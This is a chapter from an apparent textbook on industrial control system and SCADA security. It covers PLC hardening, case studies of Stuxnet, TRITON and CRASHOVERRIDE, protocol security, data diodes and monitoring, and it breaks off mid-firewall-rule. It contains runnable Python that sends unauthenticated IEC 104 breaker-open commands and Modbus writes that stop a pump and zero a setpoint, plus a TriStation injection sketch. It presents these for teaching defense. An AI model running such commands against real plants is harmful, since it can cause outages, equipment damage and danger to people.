


Chapter 31: ICS and SCADA Hardware Security¶
31.1 Introduction¶
Industrial Control System (ICS) and SCADA (Supervisory Control and Data Acquisition) security addresses threats to physical infrastructure: power grids, water treatment plants, oil and gas pipelines, chemical processing facilities, and critical manufacturing. Unlike IT security failures, which result in data breach or service disruption, ICS security failures cause physical damage, environmental contamination, equipment destruction, and loss of human life. The 2010 Stuxnet attack destroyed approximately 1,000 uranium enrichment centrifuges in Iran. The 2017 TRITON/TRISIS attack targeted a Saudi petrochemical plant’s Safety Instrumented System with the explicit goal of disabling the last layer of protection against a catastrophic explosion. The 2016 CRASHOVERRIDE malware caused power outages affecting 225,000 customers in Ukraine.
The fundamental challenge of ICS security is the tension between IT security best practices and OT (Operational Technology) operational requirements. ICS devices are designed for 20–30 year operational lifetimes; they cannot be patched on a monthly cadence like enterprise software. Many PLCs (Programmable Logic Controllers) and RTUs (Remote Terminal Units) run real-time operating systems or bare-metal firmware with no support for TLS or certificate-based authentication. The protocols they use – Modbus (designed 1979), DNP3 (1993), IEC 60870-5-101 (1990) – predate the internet era and contain no security provisions.
This chapter provides comprehensive technical treatment of ICS architecture, landmark attack case studies with deep technical analysis, ICS hardware security controls for modern PLCs, protocol security and attack methodologies, data diode technology, OT network monitoring, and relevant standards.
31.2 Purdue Model and OT Network Architecture¶

31.2.1 Zone and Conduit Model (IEC 62443)¶
IEC 62443-3-2 replaces the Purdue Model’s layer abstraction with a flexible Zone and Conduit model:
-
Zone: A grouping of assets with common security requirements and a defined boundary. Example: the PLC zone contains all S7-1500 controllers for a production line.
-
Conduit: A communication channel or set of channels that connects two zones. Each conduit has a Security Level target (SL-T) that must be met by technical controls.
-
Security Levels: SL-1 (casual violation), SL-2 (intentional violation with moderate resources), SL-3 (intentional violation with sophisticated resources), SL-4 (nation-state level attacker).
31.3 ICS Hardware Platforms¶
31.3.1 Siemens SIMATIC S7 Family¶
The Siemens SIMATIC S7 PLC family is the most widely deployed in process industries and critical infrastructure:
| Model | CPU | Security Features | Connectivity |
|---|---|---|---|
| S7-300 CPU 315-2 DP | x86 embedded | None (legacy) | Profibus DP |
| S7-400 CPU 416-3 | x86 embedded | Password protection only | Profibus, Ethernet |
| S7-1200 CPU 1214C | ARM Cortex-M | Access levels 1–3, TLS OPC-UA | PROFINET, Modbus |
| S7-1500 CPU 1516-3 | Dual ARM Cortex-A | Full security (see below) | PROFINET, OPC-UA |
| S7-1500 TM (TrustMod) | ARM + SecureBoot | Integrity prot + anti-copy | PROFINET, TIA |
S7-1500 Security Features in Detail¶
The Siemens SIMATIC S7-1500 (e.g., CPU 1516-3 PN/DP, 6ES7516-3AN02-0AB0) implements:
-
Integrity Protection: Hash verification of the OB (Organization Block) program at startup. Any modification to program blocks since compilation is detected and the CPU enters STOP mode.
-
Access Level System: Four access levels (Full, HMI, Read-only, No access) protected by 8-byte passwords. Level 3 (Read-only) allows SCADA monitoring without write access. Level 4 (No access) prevents all external reads of data blocks.
-
Copy Protection: Program can be bound to the specific CPU’s serial number stored in a hardware register. Copying the program card to another CPU will fail to execute.
-
Know-How Protection: AES-256 encryption of individual function blocks (FC/FB). The encryption key is stored in the hardware security module integrated into the CPU module.
-
OPC-UA Server with TLS 1.2: Client certificates are required; the S7-1500’s certificate store is managed via TIA Portal. Supports SHA-256 signed certificates from a plant PKI.
-
PROFINET Security Class B: Implements IEEE 802.1X EAP-TLS for device authentication on PROFINET IO connections (requirement from IEC 62443-3-3 SL-2).
# S7-1500: TIA Portal security configuration (TIA V17)
# OPC-UA security configuration:
# In TIA Portal -> Device Properties -> OPC-UA:
Security Policy: Basic256Sha256 # Minimum: no None or Basic128Rsa15
MessageSecurityMode: SignAndEncrypt
Certificate: Import plant CA-signed certificate
Authentication: Certificate (disable Username/Password)
Allowed clients: Add client cert thumbprint for each SCADA system
# PROFINET Security Class B configuration:
# Device Properties -> PROFINET Interface -> Security
SecurityClass: Class_B
Authentication: Certificate-based (802.1X EAP-TLS)
CA certificate: /path/to/plant-ca.crt
# Copy protection: bind to serial number
CopyProtection: Enabled
TargetCPU_SN: "S C-XXXXXXXXXXX" # From CPU nameplate
31.3.2 Allen-Bradley ControlLogix 5580¶
Rockwell Automation ControlLogix (1756-L8x series, e.g., 1756-L85E) implements:
-
Chassis Slot Authorization: EtherNet/IP modules can be configured to reject unauthorized chassis insertions using MAC-based access control lists.
-
CIP Security (EtherNet/IP): TLS 1.2/DTLS 1.2 for EtherNet/IP Class 3 (connected, TCP) and Class 1 (implicit, UDP) messaging. Part of ODVA CIPsecurity specification.
-
Role-Based Access Control (RBAC): FactoryTalk Security integration provides granular permissions per user/group to download, upload, go online, force I/O.
-
Audit Log: Records all online changes (who, when, what) with username and timestamp, non-repudiable via signature.
31.3.3 Honeywell C300 DCS Controller¶
The Honeywell Experion Process Knowledge System (EPKS) uses the C300 Controller (CP300-E) as the core DCS execution unit. Post-TRITON security hardening (2018) added:
-
Controller Authentication: Mutual authentication between HMIweb servers and C300 controllers using X.509 certificates over TLS.
-
Signed Configuration Download: FDM (Function Diagram Manager) configuration is signed by the engineering workstation before loading; the C300 verifies the signature.
-
Redundant Controller Voting: C300 supports 1:1 redundancy; both controllers must agree on I/O state before acting – single-point compromise cannot force actuator action.
31.3.4 Schneider Electric Modicon M340 / M580¶
The Schneider Modicon M580 (BMEP582040) implements:
-
Cybersecurity IEC 62443-3-3 SL-2 compliance: Firmware authenticity verification, application confidentiality (encrypted project files), role-based access.
-
FIPS 140-2 Level 1: Crypto module for Modbus/TCP over TLS and HTTPS Webserver.
-
Firmware Secure Boot: RSA-2048 signed bootloader; unsigned images rejected.
31.4 Stuxnet: Technical Deep-Dive¶

31.4.1 Step7 DLL Interception¶
Stuxnet intercepted the Siemens Step7 programming software’s S7OTBXDX.DLL (a library that mediates communication between Step7 and the S7 PLC). The malware replaced this DLL with a modified version that:
-
Captured s7blk_write calls: When the Step7 IDE wrote OB (Organization Block) code to the PLC, the hooked DLL intercepted the write and inserted the malicious OB35 code alongside the legitimate program.
-
Intercepted s7blk_read calls: When the operator tried to read the PLC program back to verify its contents, the hooked DLL returned the expected clean program, hiding the injected OB35.
-
OB35 (Timed Interrupt Block): OB35 is called at a configurable interval (typically every 100ms) by the S7 operating system. Stuxnet used OB35 to monitor and manipulate centrifuge motor frequency:
// Stuxnet OB35 pseudocode (reconstructed by Symantec, Langner)
// Target: Siemens S7-315-2 with specific PLC serial number
OB35_CYCLE() {
// Check if target PLC (serial number match)
if (PLC.SerialNumber != TARGET_SERIAL) return;
current_freq = read_VFD_frequency(PROFIBUS_ADDR_6FC);
if (current_freq >= 807 Hz && current_freq <= 1210 Hz) {
// Centrifuge in normal operation range (target: 1064 Hz)
attack_sequence_counter++;
if (attack_sequence_counter == 1) {
// Phase 1: Overspeed (15 minutes)
set_VFD_frequency(PROFIBUS_ADDR_6FC, 1410 Hz);
// 1410 Hz -> rotor exceeds structural limits
}
else if (attack_sequence_counter == 2) {
// Phase 2: Return to normal (briefly)
set_VFD_frequency(PROFIBUS_ADDR_6FC, 1064 Hz);
}
else if (attack_sequence_counter == 3) {
// Phase 3: Underspeed (50 minutes)
set_VFD_frequency(PROFIBUS_ADDR_6FC, 2 Hz);
// Near-stop causes mechanical stress
attack_sequence_counter = 0;
}
}
// Meanwhile, report normal readings to HMI (spoof sensor data)
spoof_HMI_readings(NORMAL_SPEED);
}
The net effect: approximately 1,000 IR-1 centrifuges experienced accelerated mechanical failure over 18 months while the HMI showed normal operations. Stuxnet used four Windows zero-day vulnerabilities (CVE-2010-2568 LNK autorun, CVE-2010-2729 Print Spooler, CVE-2010-2772 CPLINK, CVE-2010-2743 Win32k.sys) for initial propagation and privilege escalation.
31.5 TRITON/TRISIS: Safety System Attack¶
31.5.1 Technical Attack Analysis¶
TRITON (also known as TRISIS, HatMan) was first detected in a Saudi Arabian petrochemical facility in August 2017. The attack targeted Schneider Electric Triconex Safety Instrumented System (SIS) – the last line of defense against process over-pressure, over-temperature, or toxic release.
-
Target Hardware: Triconex Tricon controller Model 3008 (Tricon Main Chassis), implementing Triple Modular Redundancy (TMR). Three independent CPUs (MP3008 processors) each execute identical programs; a 2-of-3 voting mechanism determines actuator output.
-
TriStation Protocol Vulnerability (CVE-2017-9697): The proprietary TriStation 1131 protocol used for Tricon programming has no authentication. Any host on the engineering network can connect to the Tricon on UDP port 1502 and send program changes. The DIP switch on the Tricon front panel controls operational mode; in PROGRAM mode (switch position 1), all program writes are accepted without any credential check.
-
TRITON Attack: The malware connected to the Tricon via TriStation protocol and attempted to inject a malicious program. Due to a bug in the TRITON malware’s handling of TMR voting, the injection caused two of three CPUs to enter SAFE state simultaneously, triggering a plant shutdown (which caused the attack to be discovered). The intended goal was to silently disable the SIS while the process continued, allowing a process-side attack to cause a catastrophic failure without the SIS intervening.
# TriStation 1131 protocol reverse engineering (Dragos/Nozomi research)
# UDP port 1502, no authentication
# TRITON: Read Tricon firmware version
import socket
import struct
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.bind(("0.0.0.0", 0))
# TriStation version request (raw UDP payload):
VERSION_REQUEST = bytes.fromhex(
"01 05 00 00 00 00 00 00" # TriStation header
"01 00 00 00" # Function code: Get version
)
sock.sendto(VERSION_REQUEST, ("192.168.1.100", 1502)) # Tricon IP
resp, addr = sock.recvfrom(1024)
# Response contains firmware version, serial number, mode (PROGRAM/RUN)
# TRITON detected mode == PROGRAM -> proceed to inject
# In PROGRAM mode: program download is accepted with no auth
INJECT_PAYLOAD = build_tristation_program_download(malicious_rung)
sock.sendto(INJECT_PAYLOAD, ("192.168.1.100", 1502))
# If bug-free: Tricon accepts new program, SIS is silently disabled
31.5.2 Post-TRITON Triconex Security Hardening¶
Schneider Electric released the Trident Nexus Security Module (NSM) after TRITON. The NSM adds:
-
Authentication: Cryptographic challenge-response required for all TriStation programming connections.
-
Key Storage: Hardware secure element on the NSM stores authentication keys.
-
Mode Enforcement: DIP switch state is transmitted to the NSM; programming commands are only accepted if the NSM concurs with the physical switch position.
-
Logging: All programming access attempts are cryptographically signed and logged with remote syslog to an off-system server.
Honeywell Safety Manager (HSM) post-TRITON hardening similarly added signed firmware requirements and authenticated engineering access.
31.6 CRASHOVERRIDE / Industroyer¶
CRASHOVERRIDE (named by Dragos) / Industroyer (named by ESET) was deployed against Ukrainian power grid infrastructure in December 2016, causing a 75-minute outage in Kiev. Unlike Stuxnet (which used PLC program injection), CRASHOVERRIDE implemented native ICS protocol clients:
-
IEC 104 Module: Implemented a full IEC 60870-5-104 client that sent unauthorized control commands (C_SC_NA_1: Single Command) to RTUs, opening circuit breakers. IEC 104 has no authentication in the standard protocol.
-
IEC 61850 Module: Issued GOOSE (Generic Object Oriented Substation Event) messages with CB_OFF commands over the station bus to protection relays, tripping circuit breakers.
-
OPC DA Module: Connected to OPC Data Access servers to read network topology and enumerate all configured IED (Intelligent Electronic Device) objects.
-
Wiper Module: Overwrote MBR and ICS driver files to render affected systems unbootable, extending the outage and complicating forensic investigation.
# IEC 60870-5-104 unauthorized circuit breaker open command
# CRASHOVERRIDE technique (educational reconstruction)
import socket
import struct
# IEC 104 ASDU (Application Service Data Unit) for Single Command
# C_SC_NA_1 (Type 45): Single-point control with time tag
def build_sc_command(addr, value):
# APCI header (Application Protocol Control Information)
STARTDT = bytes.fromhex("68") # Start byte
apci = struct.pack("!BBHH",
0x0E, # APDU length
0x00, # I-frame (sequence)
0x0001, # Send sequence number
0x0000 # Receive sequence number
)
# ASDU Type ID 45 = C_SC_NA_1 (Single Command)
asdu = struct.pack("!BBBBHB",
45, # Type ID: C_SC_NA_1
0x01, # Qualifier: 1 element
0x06, # Cause of transmission: 6 = Activation
0x00, # Originator address
0x0001, # Common address: RTU 1
addr, # Information object address: breaker CB-01
)
command_byte = 0x01 if value else 0x00 # ON=1, OFF=0 (OPEN breaker)
return STARTDT + apci + asdu + bytes([command_byte])
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("10.1.1.50", 2404)) # IEC 104 default port
sock.send(build_sc_command(0x00C0, 0)) # OPEN breaker at address 0xC0
# Defense: IEC 62351-5 adds HMAC authentication to IEC 104 messages
# No deployed RTUs in 2016 Ukraine implemented IEC 62351-5
31.7 Modbus TCP Security¶
31.7.1 Vulnerabilities¶
Modbus TCP (IANA port 502) has no security by design: no authentication, no encryption, no message integrity. Any device on the network can:
-
FC01/FC02 Read Coils/Discrete Inputs: Read current state of all digital outputs and inputs.
-
FC03/FC04 Read Holding/Input Registers: Read all process variables and setpoints.
-
FC05 Write Single Coil: Force a digital output (valve open/close, pump start/stop) to any state.
-
FC06/FC16 Write Registers: Modify setpoints, PID parameters, or alarm thresholds.
-
FC08 Diagnostics: Restart communication port, clear counters. In production environments, this function code should never appear.
-
FC43 MEI: Read device identification (manufacturer, model, firmware version) enabling targeted attacks based on known CVEs.
# Modbus TCP attack: unauthorized coil write (educational demonstration)
# Using pymodbus (legitimate automation library misused for attack)
from pymodbus.client.sync import ModbusTcpClient
client = ModbusTcpClient("10.1.1.100", port=502)
client.connect()
# Read current pump state (FC01):
result = client.read_coils(address=0, count=8, unit=1)
print(f"Pump states: {result.bits}")
# Unauthorized write: Stop pump at address 3 (FC05):
client.write_coil(address=3, value=False, unit=1) # Pump STOP
# Write setpoint register: Change pressure setpoint to 0 (FC06):
client.write_register(address=100, value=0, unit=1)
# Defense implementation:
# 1. Network whitelist: Only authorized Modbus masters
# 2. Function code whitelist (only FC03/FC04 from SCADA)
# 3. IEC 62351-5: Authenticated Modbus
# 4. Deep packet inspection (Claroty/Nozomi): detect FC05/FC06
# from unauthorized sources -> alert + block
31.8 DNP3 Vulnerabilities and Authentication¶
DNP3 (IEEE 1815-2012) is widely used in electric utilities for SCADA to RTU/IED communication. Base DNP3 has no authentication. DNP3 Secure Authentication version 5 (DNP3 SAv5) per IEEE 1815-2012 Annex A adds:
-
Challenge-Response Authentication: The master (SCADA) sends a Challenge message with a random nonce. The outstation (RTU) responds with an HMAC (SHA-256 or AES-128-GMAC) over the nonce and message, keyed with the Update Key.
-
Key Update: A critical control message requires a Key Change procedure before execution. The Update Key is changed periodically using an Aggressive Mode Key Update.
-
Monitoring Direction: Supports authentication of monitoring direction (outstation to master) using HMAC on application data.
# DNP3 SAv5 configuration (OpenDNP3 library)
# Master station configuration:
MasterStackConfig mconfig;
mconfig.master.responseTimeout = TimeDuration::Seconds(5);
# Configure SAv5 authentication
mconfig.master.auth.challengePeriod = TimeDuration::Minutes(5);
mconfig.master.auth.maxAuthSessionKeyAge = TimeDuration::Hours(1);
mconfig.master.auth.maxAggressiveModeAuthCount = 10;
# SHA-256 HMAC for authentication challenges
SecurityStatistic stats;
auto authProvider = MakeShared<DefaultMasterApplicationIface>();
// Outstation configuration (RTU side):
OutstationStackConfig oconfig;
oconfig.outstation.auth.enabled = true;
oconfig.outstation.auth.challengeSize = 4; # 4-byte nonce
oconfig.outstation.auth.expectedMsgCount = 10;
# Update Key provisioning (must be done via physical access):
# IKM (Initial Keying Material) = 256-bit random
# Delivered via encrypted/signed file at commissioning
31.9 OPC UA Security¶
OPC Unified Architecture (OPC Foundation, IEC 62541) is the modern replacement for OPC DA and provides a comprehensive security architecture:
-
X.509 Certificates: Every OPC UA server and client has an application certificate. Mutual authentication is mandatory in the highest security modes.
-
Security Policies: None (no encryption/signing), Basic256Sha256 (RSA-2048 + SHA-256), Aes128-Sha256-RsaOaep, Aes256-Sha256-RsaPss.
-
Message Security Modes: None, Sign (integrity only), SignAndEncrypt (integrity + confidentiality).
-
Session Authentication: After transport security: Anonymous, Username/Password, or X.509 Certificate per session.
-
Role-Based Access (RBAC): OPC UA 1.04+ defines a built-in Role model (Operator, Engineer, ConfigureAdmin) with per-node access control entries.
# OPC UA server: configure Aes256-Sha256-RsaPss + SignAndEncrypt
# Using open62541 library (C, open source OPC UA):
UA_ServerConfig *config = UA_Server_getConfig(server);
/* Set minimum security policy to Aes256-Sha256-RsaPss */
UA_ServerConfig_setDefaultWithSecurityPolicies(
config,
port,
&certificate, /* Server X.509 DER certificate */
&privateKey, /* RSA-4096 private key */
trustList, trustListSize, /* Trusted CA certificates */
issuerList, issuerListSize, /* Issuer certificates */
revocationList, revocationListSize /* CRL */
);
/* Disable insecure endpoint (None security mode) */
/* Default config includes None endpoint -- must remove for ICS: */
for (size_t i = 0; i < config->endpointsSize; i++) {
if (config->endpoints[i].securityMode ==
UA_MESSAGESECURITYMODE_NONE) {
UA_EndpointDescription_clear(&config->endpoints[i]);
}
}
/* RBAC: add permission check callback */
config->accessControl.activateSession = checkSessionCertificate;
config->accessControl.allowBrowseNode = checkBrowsePermission;
config->accessControl.allowReadAttribute = checkReadPermission;
config->accessControl.allowWriteValue = checkWritePermission;
31.10 Data Diode Hardware¶
Data diodes (hardware-enforced unidirectional security gateways) provide absolute one-way data flow guarantees, superior to software firewalls which can be misconfigured or compromised:
| Vendor | Product | Throughput | Protocols |
|---|---|---|---|
| Waterfall Security | Unidirectional Security GW | 1 Gbps | OSIsoft PI, OPC, syslog |
| Waterfall Security | Secure Bypass | 100 Mbps | Alarm, eCPRI, MODBUS |
| Owl Cyber Defense | OPDS-100G | 100 Gbps | Raw Ethernet, IP |
| Owl Cyber Defense | OWL DualDiode | 10 Gbps | UDP proxy, SMB |
| BAE Systems | Trestle | 1 Gbps | Classified OT networks |
| Everfox (Forcepoint) | HAIPE-NG | Varies | NSA Type 1 encryption |
| Advenica SecuriCDS | ZoneGuard | 100 Mbps | FTP, SMTP, syslog |
| Garland Technology | TAP P1GBTXBP | 1 Gbps | Passive network tap |
Waterfall Security’s data diode uses a fiber-optic physical layer where only the transmit fiber is connected; the receive fiber is physically absent on the OT side. This provides an absolute physical guarantee of unidirectionality that cannot be subverted by software. The Waterfall Secure Bypass adds a controlled, supervised bypass channel for emergency bi-directional access with mandatory human approval and logging.
31.11 FPGA-Based Hardware Firewalls for OT Protocols¶
FPGAs can implement deterministic, line-rate packet inspection and filtering for OT protocols (Modbus, DNP3, IEC 104) that software firewalls cannot handle at wire speed without introducing timing jitter:
| Device | LUTs | FFs | BRAMs | DSPs | Fmax (MHz) | Power (mW) |
|---|---|---|---|---|---|---|
| Xilinx XC7K70T-2FBG676 | 8,420 | 6,180 | 24 | 8 | 185 | 420 |
| Intel Arria 10 GX 10AX115 | 7,880 | 5,640 | 18 | 4 | 210 | 580 |
| Xilinx XC7A200T-2FBG484 | 9,640 | 7,200 | 32 | 10 | 165 | 510 |
| Lattice ECP5-85F-8BG556 | 11,200 | 8,400 | 38 | 0 | 140 | 380 |
| Microsemi PolarFire MPFS250T | 6,840 | 5,120 | 20 | 8 | 175 | 285 |
| Intel Stratix 10 GX 280 | 6,120 | 4,680 | 14 | 6 | 250 | 720 |
| Xilinx ZynqRFSoC ZCU102 | 7,360 | 5,480 | 22 | 12 | 225 | 640 |
31.12 ASIC Implementation of OT Protocol Security¶
| Process | Area (mm2) | Power (mW) | Freq (MHz) | ECC |
|---|---|---|---|---|
| TSMC 65nm GP | 3.20 | 68 | 300 | Hamming SEC-DED |
| GF 40nm LP | 1.64 | 32 | 450 | BCH(63,51) |
| TSMC 28HPC | 0.82 | 14 | 700 | BCH(127,113) |
| GF 22FDX | 0.41 | 7.2 | 1000 | BCH(255,239) |
| TSMC 16FFC | 0.24 | 4.1 | 1300 | RS(255,239) |
| Samsung 14LPP | 0.19 | 3.2 | 1500 | RS(255,239) |
31.13 MITRE ATT&CK for ICS¶
MITRE ATT&CK ICS framework (v15, 2024) documents adversary tactics and techniques specific to industrial control systems across 12 tactics and 88 techniques. Critical techniques relevant to hardware security:
| Technique ID | Name | ICS Hardware Target |
|---|---|---|
| T0800 | Activate Firmware Update Mode | S7-1500, ControlLogix |
| T0806 | Brute Force I/O | Analog outputs, RTU coils |
| T0821 | Modify Controller Tasking | S7 OB injection (Stuxnet) |
| T0831 | Manipulation of Control | Setpoint modification |
| T0833 | Modify Command Message | Modbus FC06 coil write |
| T0835 | Manipulate I/O Image | Spoof HMI sensor readings |
| T0836 | Modify Parameter | PID gain modification |
| T0839 | Module Firmware | Malicious PLC firmware |
| T0845 | Program Upload | PLC ladder logic theft |
| T0855 | Unauthorized Command Message | Unauthenticated IEC104 |
| T0856 | Spoof Reporting Message | False process data to HMI |
| T0857 | System Firmware | Industrial PC BIOS implant |
31.14 OT Network Security Monitoring¶
31.14.1 Commercial Monitoring Platforms¶
-
Dragos Platform: ICS-specific threat intelligence integrated with passive OT protocol monitoring. Tracks 22+ named activity groups (threat actors targeting ICS). Provides behavioral analytics for over 400 ICS protocols. Integration with MITRE ATT&CK ICS framework for alert classification.
-
Claroty: Passive and active discovery of OT assets. Behavioral analytics baseline per device type. Integrates with SIEM (Splunk, IBM QRadar) and SOAR platforms. Risk scoring per device based on CVE exposure and network exposure.
-
Nozomi Networks Guardian: Real-time anomaly detection for 100+ OT/ICS protocols. Machine learning for behavioral baselining. Zero-impact passive monitoring. Available as hardware appliance (Guardian-HW-500) or virtual machine.
-
Forescout eyeInspect (formerly SecurityMatters): Active and passive protocol-aware inspection. Automated asset discovery and vulnerability correlation. NERC CIP compliance reporting for electric utilities.
31.14.2 Industrial Firewalls¶
-
Fortinet FortiGate NGFW (FG-200E): ICS-specific AppID signatures for 100+ OT protocols. Modbus function code whitelisting, DNP3 packet inspection. Inline deployment between IT DMZ and OT network.
-
Cisco IE3400: Hardened industrial Ethernet switch with integrated firewall capabilities, 802.1X NAC, and PROFINET/EtherNet-IP awareness. DIN-rail mount, -40 to +75 degree C operating range.
-
Hirschmann EAGLE40: Purpose-built industrial firewall with stateful Modbus/TCP inspection, configurable function code filter, VPN gateway (IPsec/OpenVPN) for remote access to OT networks.
-
Phoenix Contact FL MGUARD 2102: IDS signatures for ICS protocols, Modbus TCP proxy with function code whitelist, hardware bypass relay for fail-open behavior in power loss.
31.15 All Solutions Comparison¶
| Category | Solution | Type | Use Case |
|---|---|---|---|
| OT Monitoring | Dragos Platform | Commercial | ICS threat detection |
| OT Monitoring | Claroty CTD | Commercial | OT asset + anomaly |
| OT Monitoring | Nozomi Networks Guardian | Commercial | Passive OT monitoring |
| OT Monitoring | Forescout eyeInspect | Commercial | Active/passive ICS |
| OT Monitoring | Microsoft Defender for IoT | Commercial | OT/ICS + Azure SIEM |
| OT Monitoring | SecurityBridge (SAP ICS) | Commercial | SAP plant security |
| Industrial FW | Fortinet FortiGate NGFW | Commercial | IT/OT boundary FW |
| Industrial FW | Cisco IE3400 | Commercial | Industrial switch + FW |
| Industrial FW | Hirschmann EAGLE40 | Commercial | Modbus TCP proxy FW |
| Industrial FW | Phoenix FL MGUARD 2102 | Commercial | DIN-rail ICS firewall |
| Industrial FW | Check Point 1570R | Commercial | Rugged NGFW OT |
| Data Diode | Waterfall Security USSG | Commercial | Unidirectional GW |
| Data Diode | Owl Cyber Defense OPDS | Commercial | High-speed data diode |
| Data Diode | Advenica ZoneGuard | Commercial | EU/govt data diode |
| PLC (Secure) | Siemens S7-1500 TM | Commercial | Secure PLC (Trust Mod) |
| PLC (Secure) | Rockwell ControlLogix 5580 | Commercial | CIP Security EtherNet/IP |
| PLC (Secure) | Schneider Modicon M580 | Commercial | IEC 62443 SL-2 PLC |
| DCS (Secure) | Honeywell EPKS C300 | Commercial | Post-TRITON hardened |
| DCS (Secure) | ABB System 800xA | Commercial | Cybersecurity certified |
| RTU (Secure) | GE D20MX | Commercial | DNP3 SAv5 RTU |
| RTU (Secure) | SEL-3530 RTAC | Commercial | Authenticated DNP3/IEC |
| OT SIEM | Splunk Enterprise Security | Commercial | OT log correlation |
| OT SIEM | IBM QRadar OT Security | Commercial | ICS threat analytics |
| Open ICS Tools | OpenDNP3 | Open Source | DNP3 implementation |
| Open ICS Tools | libiec61850 | Open Source | IEC 61850 + GOOSE |
| Open ICS Tools | InduSoft Web Studio | Commercial | SCADA HMI platform |
| Open ICS Tools | ScadaBR | Open Source | Open SCADA platform |
| Research | GRFICS (Georgia Tech) | Open Source | ICS security testbed |
| Research | SWaT Testbed (iTrust) | Research | Water treatment ICS |
| Threat Intel | Dragos WorldView ICS | Commercial | ICS threat intel |
| Threat Intel | Mandiant OT/ICS Reports | Commercial | ICS incident reporting |
31.16 Solved Problems¶
Solved Problem: Stuxnet OB35 Detection Strategy
A Siemens Step7 / S7-PLCSIM environment is being audited for potential Stuxnet contamination. Describe a detection strategy that does not rely on antivirus signatures, targeting the OB35 injection technique specifically. The auditor has access to the Step7 project files and a JTAG-connected hardware debugger.
Solution: Stuxnet detection strategy without antivirus signatures:
-
Direct PLC memory readback via S7comm protocol (bypass hooked DLL): Stuxnet’s key evasion technique hooks S7OTBXDX.DLL to hide OB35 from the Step7 IDE. However, a direct S7comm connection using a modified client (Siemens S7comm-plus protocol) that does not go through the hooked DLL can read the actual OB35 block from the PLC memory:
# Using Snap7 library (bypasses S7OTBXDX.DLL): import snap7 client = snap7.client.Client() client.connect("192.168.1.100", 0, 1) ob35_data = client.upload(client.BlocksList()) # Compare ob35_data with Step7 project source -> discrepancy = Trojan -
Hash comparison of OB35: Extract OB35 from both the Step7 project (from the .s7p file, decompiled) and directly from the PLC via Snap7. Compute SHA-256 of both. Any difference indicates tampering.
-
VFD frequency command audit: Stuxnet modifies frequency setpoint writes to Profibus-connected VFDs. A timing analysis of Profibus DP traffic between the S7-315 and the frequency converters (Vacon or Fararo Paya model) shows anomalous frequency changes (1410 Hz / 2 Hz) outside the expected operating range. Deploy a Profibus TAP (passive monitor) to capture raw Profibus DP frames.
-
JTAG hardware debug: Halt the S7-315 CPU via JTAG (Siemens uses a proprietary debug interface on the front panel). Read OB35 directly from CPU SRAM at the known address (extracted from Step7 documentation). This bypasses all DLL hooking and provides a ground-truth view of the running program.
-
S7OTBXDX.DLL integrity check: On the engineering workstation, compute SHA-256 of C:\Siemens\Step7\Bin\S7OTBXDX.DLL and compare against known-good hash from Siemens. Stuxnet replaces this file; file size will be 346 KB (malicious) vs. 149 KB (genuine).
Solved Problem: TRITON Threat Mitigation Design
Following the 2017 TRITON attack, a petrochemical plant must harden its Triconex-based SIS architecture. Design a defense-in-depth architecture that addresses the three root causes identified by Dragos: (1) no authentication on TriStation 1131 protocol, (2) DIP switch PROGRAM mode accessible remotely, (3) no logging of programming access. Specify hardware and network controls for each.
Solution: Defense-in-depth architecture addressing each root cause:
Root Cause 1 – No TriStation authentication:
-
Install the Schneider Electric Trident Nexus Security Module (NSM) on all Tricon chassis. The NSM enforces HMAC-SHA256 authentication on all TriStation 1131 connections.
-
Deploy a dedicated, isolated engineering network for SIS access (separate physical switches, not VLAN-separated from DCS network). This network has no routing to the corporate IT network.
-
Implement a hardware firewall (Hirschmann EAGLE40) on the SIS engineering network permitting TriStation traffic (UDP 1502) only from a single, authorized engineering workstation IP.
Root Cause 2 – DIP switch PROGRAM mode:
-
Physical lockout: Install a keyed security enclosure over the Tricon chassis front panel. The DIP switch is accessible only with a physical key held by the SIS engineer.
-
Process control: Require a Management of Change (MoC) work order plus two-person authorization before the DIP switch is placed in PROGRAM mode. The key is held in a tamper-evident safe with access logged.
-
NSM enforcement: Configure the NSM to require a separate authentication credential (hardware token, e.g., Yubikey 5C) even when the DIP switch is in PROGRAM mode. Remote programming without physical presence at the chassis is disabled.
Root Cause 3 – No programming access logging:
-
NSM logging: The Nexus Security Module cryptographically signs and timestamps all programming access events. Logs are transmitted via unidirectional data diode (Waterfall Security) from the SIS network to a read-only historian on the DCS network.
-
Behavioral monitoring: Deploy Nozomi Networks Guardian on the SIS engineering network segment. Any TriStation protocol traffic outside authorized maintenance windows triggers an immediate alert.
-
Physical access logging: Door access control (badge + PIN) to the SIS control room is logged to a centralized SIEM with correlation: DIP switch mode change must coincide with authorized personnel badge access within 5 minutes.
Solved Problem: Modbus TCP Function Code Whitelist Design
A water treatment plant SCADA system uses Modbus TCP to communicate between a SCADA master (IP 10.1.1.10) and 15 RTUs controlling pump stations (IPs 10.1.2.1–10.1.2.15). Design a Modbus TCP firewall rule set that restricts communication to the minimum necessary function codes for normal operations while detecting and blocking attack function codes.
Solution: Modbus TCP firewall rule design:
Normal operation analysis:
-
SCADA reads sensor data: FC03 (Read Holding Registers) from each RTU – water level, flow rate, pressure.
-
SCADA reads pump status: FC01 (Read Coils) – pump running/stopped.
-
SCADA writes pump commands: FC05 (Write Single Coil) – pump start/stop during authorized operation windows.
-
SCADA writes setpoints: FC16 (Write Multiple Registers) – flow rate setpoints, alarm thresholds.
Firewall rule set (implemented in Fortinet FortiGate with Modbus AppID):
# Modbus TCP firewall policy (FortiGate CLI):
config firewall policy
edit 10
set name "SCADA-to-RTU-READ"
set srcintf "SCADA_VLAN"
set dstintf "OT_VLAN"
set srcaddr "SCADA_MASTER_10.1.1.10"
set dstaddr "RTU_POOL_10.1.2.0/24"
set service "MODBUS_READ" # FC01,FC02,FC03,FC04 only
set schedule "always"
set action accept
set logtraffic all
next
edit 11
set name "SCADA-to-RTU-WRITE-AUTHORIZED"
set srcaddr "SCADA_MASTER_10.1.1.10"
set dstaddr "RTU_POOL_10.1.2.0/24"
set service "MODBUS_WRITE" # FC05,FC06,FC16 only
